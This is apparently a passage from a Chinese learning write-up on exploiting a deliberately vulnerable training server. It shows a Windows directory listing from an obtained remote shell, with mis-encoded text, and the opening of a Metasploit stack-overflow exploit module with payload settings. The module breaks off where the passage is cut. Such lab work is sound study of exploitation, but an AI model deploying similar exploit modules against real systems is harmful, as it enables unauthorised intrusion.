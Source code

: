 	D:\Program Files\Microsoft Visual Studio\MyProjects\server\Debug>dir
	dir
	 ������ D �еľ�û�б�ǩ��
	 �������к��� 0EAA-0461
	
	 D:\Program Files\Microsoft Visual Studio\MyProjects\server\Debug ��Ŀ¼
	
	2014-04-07  17:22    <DIR>          .
	2014-04-07  17:22    <DIR>          ..
	2014-04-07  16:56           172,124 server.exe
	2014-04-07  16:56           185,136 server.ilk
	2014-04-07  16:56            25,594 server.obj
	2014-04-07  17:22            43,520 server.opt
	2014-04-07  16:56           203,728 server.pch
	2014-04-07  16:56           353,280 server.pdb
	2014-04-07  16:56             2,203 StdAfx.obj
	2014-04-07  17:23            91,136 vc60.idb
	2014-04-07  16:56           135,168 vc60.pdb
	               9 ���ļ�      1,211,889 �ֽ
	               2 ��Ŀ¼ 16,896,925,696 �����ֽ
	
成功得到了存在漏洞服务器的shell。

将exploit转换成metasploit，现在先贴代码，以后有时间仔细研究这个的写法。

	#
	#
	# Custom metasploit exploit for vulnserver.c
	# Written by Peter Van Eeckhoutte
	#
	#
	require 'msf/core'
	
	class Metasploit3 < Msf::Exploit::Remote
	
	      include Msf::Exploit::Remote::Tcp
	
	      def initialize(info = {})
	                super(update_info(info,
	                        'Name'           => 'Custom vulnerable server stack overflow',
	                        'Description'    => %q{
	                                        This module exploits a stack overflow in a 
	                                        custom vulnerable server.
	                                             },
	                        'Author'         => [ 'Terenceli ' ],
	                        'Version'        => '$Revision: 9999 $',
	                        'DefaultOptions' =>
	                                {
	                                        'EXITFUNC' => 'process',
	                                },
	                        'Payload'        =>
	                                {
	                                        'Space'    => 1400,
	                                        'BadChars' => "\x00\xff",
	                                },
	                        'Platform'       => 'win',
	